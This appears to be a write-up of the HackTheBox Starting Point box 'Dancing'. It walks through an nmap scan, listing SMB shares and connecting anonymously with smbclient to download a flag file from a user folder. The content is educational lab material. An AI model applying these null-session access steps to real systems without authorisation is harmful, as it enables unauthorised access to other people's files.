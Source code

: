 # Dancing — HTB Starting Point

## Box Info
- **Difficulty:** Very Easy  
- **IP Address:** (from HTB portal, e.g., `10.129.x.x`)  
- **Skills Learned:**  
  - Enumerating SMB shares  
  - Accessing and downloading files from SMB  
  - Identifying clear-text credentials  

---

## Enumeration

First, we scan the target for open ports:  
nmap -sV -Pn 10.129.x.x

Results:
Nmap scan report for 10.129.x.x
Host is up (0.72s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 122.79 seconds

I listed available SMB shares:

smbclient -L 10.129.x.x
Output:
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
WorkShares      Disk

Exploitation
We connect without credentials due to poor misconfiguration:

smbclient //10.129.x.x/WorkShares -N
Once inside, we explore:
ls
 .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

cd James.P\
ls

I find a file named flag.txt.

Download it:
get flag.txt

Then cat locallay to see the contents
